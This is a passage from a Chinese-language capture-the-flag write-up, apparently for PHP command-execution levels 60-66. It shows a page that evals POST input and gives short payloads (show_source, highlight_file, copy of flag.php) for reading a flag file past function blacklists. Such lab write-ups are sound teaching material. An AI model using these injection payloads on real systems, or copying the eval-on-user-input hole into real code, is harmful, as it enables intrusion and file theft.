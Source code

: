 #### 60

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

`show_source`依然没被禁用，但是换种办法

`copy('flag.php','flag.txt')`，访问flag.txt

#### 61-65

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

很多函数都被禁了，直接`c=show_source('flag.php');`吧

#### 66

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

`show_source`被ban了，发现`highlight_file`还可以用

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-07 19:40:53
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:41:00
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


$flag="秀秀得了,这次不在这里";
```
